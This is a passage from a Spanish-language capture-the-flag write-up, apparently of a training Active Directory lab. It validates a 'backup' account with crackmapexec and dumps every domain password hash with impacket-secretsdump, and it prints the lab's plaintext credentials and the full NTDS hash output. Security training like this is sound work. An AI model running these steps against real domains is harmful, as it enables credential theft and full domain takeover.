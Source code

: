 Tenemos credenciales para el usuario `backup` 

`backup@apookysec.local:backup2517860`

Vamos a validarlas con `crackmapexec` para ver si son correctas, pero no nos dio `Pwn3d!` asi que vamos a tener que seguir enumerando

```bash
❯ crackmapexec smb 10.10.220.144 -u backup -p backup2517860
SMB         10.10.220.144   445    ATTACKTIVEDIREC  [*] Windows 10.0 Build 17763 x64 (name:ATTACKTIVEDIREC) (domain:spookysec.local) (signing:True) (SMBv1:False)
SMB         10.10.220.144   445    ATTACKTIVEDIREC  [+] spookysec.local\backup:backup2517860 
```

Si nos vamos al `Task 7` nos dice que usemos `secretsdump.py` y nos dan la siguiente informacion util 

<span style="color:yellow">
Now that we have new user account credentials, we may have more privileges on the system than before. The username of the account "backup" gets us thinking. What is this the backup account to?
Well, it is the backup account for the Domain Controller. This account has a unique permission that allows all Active Directory changes to be synced with this user account. This includes password hashes
Knowing this, we can use another tool within Impacket called "secretsdump.py". This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer. Exploiting this, we will effectively have full control over the AD Domain.
</span>

Sabiendo la informacion que nos esta dando podemos usar la herramienta

<https://github.com/fortra/impacket/blob/master/examples/secretsdump.py>

```bash
❯ impacket-secretsdump WORKGROUP/backup:backup2517860@10.10.220.144
Impacket v0.10.1.dev1+20230207.122134.c812d6c7 - Copyright 2022 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:86e6e1b7c4ed4e15fd9b30daa3511d0c:::
```
